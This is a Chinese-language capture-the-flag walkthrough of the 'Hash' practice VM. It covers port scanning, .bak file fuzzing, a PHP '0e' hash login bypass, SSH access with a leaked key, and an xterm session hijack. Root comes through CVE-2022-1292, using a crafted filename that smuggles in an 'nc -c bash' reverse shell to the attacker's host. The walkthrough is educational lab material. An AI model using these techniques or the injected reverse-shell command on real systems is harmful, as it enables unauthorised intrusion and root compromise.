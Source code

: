 # Hash

:::note

[Linux VM] [Tested on VirtualBox] created by || sml

⏲️ Release Date // 2021-02-05

✔️ MD5 // 7707cf5723630fe8b72cd9624594e902

☠ Root // 36

💀 User // 37

📝Notes //
Hack and Fun!

:::

## 靶机启动

靶机 IP

```plaintext
192.168.56.110
```

## nmap 信息搜集

```plaintext
Nmap scan report for 192.168.56.110
Host is up (0.00055s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 1e:fb:86:3d:cf:26:a2:a0:ae:b0:00:61:0b:41:cb:ab (RSA)
|   256 80:8e:46:7b:1d:6e:13:74:22:89:ad:91:b4:44:64:ec (ECDSA)
|_  256 71:e5:e1:4f:34:16:de:ec:b5:c4:fe:f5:0a:a2:ee:fc (ED25519)
80/tcp   open  http          nginx 1.14.2
|_http-title: LOGIN
|_http-server-header: nginx/1.14.2
3389/tcp open  ms-wbt-server xrdp
```

## web 服务

查看原始数据包

```html
┌─[randark@parrot]─[~]
└──╼ $http get http://192.168.56.110/
......
<!doctype html>
<html lang="en">
<title>LOGIN</title>

    <form class="form-signin" action="check.php" method="post">

      <input type="text" autocomplete="off" id="user" name="user" name="user" placeholder="Username" required autofocus>
      <input type="password" name="password" id="password" placeholder="Password" required>
      <input type="submit" value="Login">
    </form>
<!-- Marco, remember to delete the .bak file-->
  </body>
</html>
```

尝试爆破

```shell
┌─[randark@parrot]─[~]
└──╼ $ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.56.110/FUZZ.bak -t 50
......
[Status: 200, Size: 273, Words: 26, Lines: 15, Duration: 16ms]
    * FUZZ: check
```

查看数据

```php title="check.bak"
<?php
    // Login part.
    $pass = $_POST['password'];
    //marco please dont use md5, is not secure.
    //$passwordhashed = hash('md5', $pass);
    $passwordhashed = hash('sha256',$pass);
    if ($passwordhashed == '0e0001337') {
        //Your code here
    }
    else{
        //Another code here
    }
    //To finish
?>
```

由于采用了 `==` 弱比较的方式，所以可以直接采用 `0e` 绕过

相关数据可以参考 [hashes/sha256.md at master · spaze/hashes](https://github.com/spaze/hashes/blob/master/sha256.md)

成功登陆之后，即可得到

```plaintext
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAxiKdFmWJiVfVYaNGov1xuh0/nrXnNsx2s6g5IoIJrmkX+9qzt2US
ZWMgrjLzAyB3wrLFysCPh4F8GU87pJkbpc0prM/8vB2WJCg5ktDQ6o0vwH219sPKUS4e9R
s2bPz7CJX5bzFDQ3B6ZUOs1itZ1t/uq38XuCxDjI8XxU6fusB3Rjz2XIombtFwo78W1pkX
VnQhzZOQ+b8UaC5lZeKatcZ0xdc0iQgiAbcRN7sXYCDMxMmo9KsxqzWjd56hLrv1nsTy2t
VBXzDRw+5JU4AJlGDRB/Upq/oKbGDCOmgNUsJPQKW4TgEAWhUa+t/ue2Bs/wFjCY7w/LkY
pK4bnY5eHQAAA8C/pv23v6b9twAAAAdzc2gtcnNhAAABAQDGIp0WZYmJV9Vho0ai/XG6HT
+etec2zHazqDkiggmuaRf72rO3ZRJlYyCuMvMDIHfCssXKwI+HgXwZTzukmRulzSmsz/y8
HZYkKDmS0NDqjS/AfbX2w8pRLh71GzZs/PsIlflvMUNDcHplQ6zWK1nW3+6rfxe4LEOMjx
fFTp+6wHdGPPZciiZu0XCjvxbWmRdWdCHNk5D5vxRoLmVl4pq1xnTF1zSJCCIBtxE3uxdg
IMzEyaj0qzGrNaN3nqEuu/WexPLa1UFfMNHD7klTgAmUYNEH9Smr+gpsYMI6aA1Swk9Apb
hOAQBaFRr63+57YGz/AWMJjvD8uRikrhudjl4dAAAAAwEAAQAAAQEAlMcLA/VMmGfu33kW
Im+DRUiPLCLVMo3HmFH6TRIuKNvbWY+4oT5w2NbdhFDXr4Jiyz0oTn3XiN3PDMY1N/yMCS
0MXSp0UeE5i3709Gx+Y5GOyNDcoSYVtm2Wa2B6ts4jxievfDIWmv5LudxeXReCR1oxQm+V
pQL/2fzc0ZifUj+/VSSIltgDKHxEfebfK0xShgXTSlUhickSapre2ArSdplM/rYvZLDWmd
iGkGD3VnAgRtloy5v32vPI3M++OCrHbLxgff4odAjawejPPHVj3beMgCrqwb/CCNKEyWKc
Jkjjt7nY/GUW4RfzM34LplezpmvrsLkTVMAb3KflDkDPFQAAAIBrP6Pnz0t8d/M+4hEb66
IkrftwqMC+c8Z0HMGURTMco7jXfoXaVP3eWCafEZ/RobZm0Ob1mnBZ574Qn8ai5VLPyJz6
5Ibe1Z6LWu6yCL/VFNyksnVARIuVjQt9pXpzbXOfn0H4ZHRBFyRhNHGjnft1PA59O30Dpw
UVz9eO3K2EqQAAAIEA4baQFa4RYnZ/YK4F6acjsAPhk88poLjDT86eCQ08wO5+d8BGuSHE
+BAqCZJuJTvvozYpZ5NFW4OEG9+T/HX2tvB6Ucc1pbQNNnB7CBp/VoLLTW+nuU3YJbgYlx
VnWRRudD6K7wjZEHJ44XzLdTy2wyeUvZw/iJRZmqQ5hxXCD1MAAACBAOC4ucZotWaq/pb5
V5RqLV8HU+DWFHAIfvqtYI5wCcZmAjGtXgLF1HY9MZ3bRPz2/m7cB44cdgCRbtmqBvnOvn
6h9AS4gr1HOJEpjgohkxBTc2Mf/dpCCdcNCX2Xy5ExPSilbS2rUHHCIU2J/yZGTths8fBR
cEjmSYvt0qFY/t7PAAAACm1hcmNvQGhhc2g=
-----END OPENSSH PRIVATE KEY-----
```

## User - marco

```shell
┌─[randark@parrot]─[/tmp]
└──╼ $nano id_rsa
┌─[randark@parrot]─[/tmp]
└──╼ $chmod 600 id_rsa
┌─[randark@parrot]─[/tmp]
└──╼ $ssh -i id_rsa marco@192.168.56.110
Linux hash 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Feb 16 02:45:22 2024 from 192.168.56.102
marco@hash:~$ whoami
marco
```

### flag - user

```shell
marco@hash:~$ cat user.txt
hashmanready
```

### 环境探测

```shell title="ls -lh /home/maria/"
total 4.0K
-rwxr-xr-x 1 maria maria 25 Feb  5  2021 myterm.sh
```

查看文件内容

```shell
export DISPLAY=:10
xterm
```

那简单，SSH 可以转发 X11 会话连接，将 SSH 的会话通过 `-XY` 启动 X11 转发，并且在本地启动 X11 会话客户端（例如 `X410`），然后运行这个脚本

```shell
marco@hash:/home/maria$ ./myterm.sh
```

稍等片刻，应该会有两个 X11 会话窗口出现

![xterm](img/image_20240218-161803.png)

其中就有 `maria` 用户的会话

## User - maria

将 `maria` 的 xterm 会话反弹到监听机

```shell
┌─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 8888
[16:19:54] Welcome to pwncat 🐈!
[16:20:08] received connection from 192.168.56.110:43718
[16:20:09] 0.0.0.0:8888: normalizing shell path
           192.168.56.110:43718: registered new host w/ db
(local) pwncat$ back
(remote) maria@hash:/home/maria$ whoami
maria
```

然后探测环境

```shell title="sudo -l"
Matching Defaults entries for maria on hash:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User maria may run the following commands on hash:
    (ALL : ALL) NOPASSWD: /usr/bin/c_rehash
```

### 尝试提权

参考：[alcaparra/CVE-2022-1292: CVE-2022-1292 OpenSSL c_rehash Vulnerability - POC](https://github.com/alcaparra/CVE-2022-1292)

```shell
(remote) maria@hash:/home/maria$ nano
```

然后在 `nano` 编辑器中输入

```plaintext
-----BEGIN CERTIFICATE-----
```

然后 `Ctrl`+`x`，保存文件，使用以下作为文件名

```plaintext
hey.crt`nc -c bash 192.168.56.102 6666
```

然后执行

```shell
(remote) maria@hash:/home/maria$ sudo /usr/bin/c_rehash .
```

## User - root

```shell
┌─[✗]─[randark@parrot]─[~]
└──╼ $pwncat-cs -lp 6666
[18:56:24] Welcome to pwncat 🐈!
[19:04:00] received connection from 192.168.56.110:46698
[19:04:01] 192.168.56.110:46698: registered new host w/ db
(local) pwncat$ back
(remote) root@hash:/home/maria# whoami
root
```

### flag - root

```shell
(remote) root@hash:/root# cat root.txt
hashhater
```
